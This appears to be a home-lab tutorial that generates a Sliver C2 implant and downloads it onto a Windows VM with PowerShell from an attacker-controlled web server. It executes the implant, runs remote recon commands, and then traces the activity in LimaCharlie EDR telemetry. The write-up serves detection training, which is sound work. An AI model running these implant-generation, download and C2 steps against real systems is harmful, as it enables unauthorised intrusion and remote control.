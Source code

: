 # Generate the C2 payload
### Ubuntu Server
1. SSH into the Ubuntu server and drop into root shell:
   `sudo su`
2. Change directory to the Sliver directory created earlier:
   `cd /opt/sliver`
3. Launch the Sliver server
   `sliver-server`
   
   ![](https://i.imgur.com/w7MFCCE.png)
4. Generate the C2 session payload, within the Sliver shell.
   `generate --http [Ubuntu_VM_IP] --save /opt/sliver`
   ![](https://i.imgur.com/D9MIHge.png)
5. Confirm the new implant configuration:
   `implants`
   ![](https://i.imgur.com/ZquXU2X.png)
6. Exit Sliver by using `exit` command, and drop the C2 payload to the Windows VM by creating a temporary web server with Python.
   `cd /opt/sliver`
   `python3 -m http.server 80`
### Windows VM
1. Launch Administrative Powershell, and run the following command
   ```
   IWR -Uri http://[Ubuntu_VM_IP]/[payload_name].exe -OutFile C:\Users\User\Downloads\[payload_name].exe
	```
	*the payload name is the unique name generated by Sliver, in my case it was COMBATIVE_SHEET*
2. Create a snapshot before executing the malware.
   ![](https://i.imgur.com/HpjnKZa.png)
# Start the Command & Control Session
### Ubuntu Server
1. Terminate the Python web server.
   `Ctrl+C`
2. Relaunch sliver
   `sliver-server`
3. Start the Sliver HTTP listener
   `http`
   ![](https://i.imgur.com/STD1HdB.png)
### Windows VM
1. Execute the C2 payload download via the Administrative Powershell
   `C:\Users\User\Downloads\<c2_payload>.exe`
### Ubuntu Server
1. Back on the Sliver Session, there should be a session check show up as shown
   ![](https://i.imgur.com/HteQP4S.png)
2. Verify the session in Sliver and note down the Session ID
   `sessions`
   ![](https://i.imgur.com/ikiBFgQ.png)
   `Session ID: fd1addb0`
3. Interact with the C2 session by using the following command:
   `use [session_id]`
   ![](https://i.imgur.com/TMNkVF9.png)
4. Now, there is direct session to interact with the Windows VM. Now let's run some basic recon commands:
	1. Get basic info about the session:
	   `info`
	   ![](https://i.imgur.com/qN3ByK7.png)
	2. Find out what user and the privileges of the user had
	   `whoami`
	   ![](https://i.imgur.com/KTxqUd1.png)
	   `getprivs`
	   ![](https://i.imgur.com/fRQHpw6.png)
	3. Identify the working directory of the implant
	   `pwd`
	   ![](https://i.imgur.com/JKzDCP9.png)
	4. Examine the network connections on the remote system
	   `netstat
	   ![](https://i.imgur.com/MI34qEv.png)
	   - The highlighted connection is the implant's
	   - rphcp.exe is LimaCharlie's
	5. Identify the running processes
	   `ps -T`
	   ![](https://i.imgur.com/xTSwZ0J.png)![](https://i.imgur.com/yGNOTr6.png)
	   Sliver will highlight the defensive product in Red and its own process in Green. It will also show the Security Product used by the system.

# Observe the EDR Telemetry
### LimaCharlie
1. Go to LimaCharlie web UI, and click on the active Windows sensor.
   ![](https://i.imgur.com/BTO0QFS.png)
2. On the right panel, click on "Processes" to examine the processes running on the Windows VM. As shown in the image below, there is one processes that is **Not Signed** *(without the Green Check Mark)*. Therefore, it would be unusual process.
   ![](https://i.imgur.com/qeDxf9R.png)
3. The Network Connections can also be viewed by clicking on the three-dots at the side of the process. It will show the IP address, ports, protocols and state of the connection.
   ![](https://i.imgur.com/9palrz7.png)
4. By clicking into the "Network" tab on the right panel, we can find search for the Destination IP by using `Ctrl + F` with the destination IP as the keyword and found several processes linked to it.
   ![](https://i.imgur.com/o9pjSRh.gif)
5. Next, go to the "File System" on the right panel, and navigate to the path where the implant is running from which can be determined from the "Processes" tab earlier. Then the file hash can be inspected and search on VirusTotal for any matching signature.
   ![](https://i.imgur.com/2fsGsfH.gif)
   However, there is no match found for the file hash. Because the payload is just generated on our own and it's not available in the VirusTotal database yet. This would be more suspicious if the file is suspected to be a malware, as VirusTotal have a huge database of malware sample, hence the sample file might be a custom-made malware.
6. Next, go to the "Timeline", and filter the timeline with known Indicator of Compromise (name of the file, IP address of the C2).
   ![](https://i.imgur.com/aLp26gT.png)
   As shown above, once the malware is launched it immediately started communicating with the C2 server.
